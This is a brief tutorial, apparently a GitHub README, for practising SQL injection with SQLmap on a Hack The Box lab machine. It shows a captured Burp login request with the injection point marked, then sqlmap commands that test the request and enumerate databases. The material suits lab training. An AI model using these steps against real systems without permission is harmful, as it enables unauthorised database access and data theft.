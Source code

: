 - [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLi Laboratory for practice](https://app.hackthebox.com/machines/446)

# Usage

## 1) Intercept the request header with burpsuite, the request should be like:
```javascript
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.11.130
DNT: 1
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=admin%40admin.com&password=admin // <--This field its the injection point
```
## 2) Create a .txt file (peticion.txt) and paste the Burpsuite request
```bash
nano peticion.txt
```
## 3) Use SQLmap with the previouse .txt file (peticion.txt example)
```bash
sqlmap -r peticion.txt
```
Note: At this point SQLmap would ask if we want to add some extra parameteres.
Note 2: You can access the output on path: /home/kali/.local/share/sqlmap/output/<target_host_name>
## 4) Detect the current databases. After this payload we should see at the output the lists of Databases
```bash
sqlmap -r peticion.txt -dbs
```

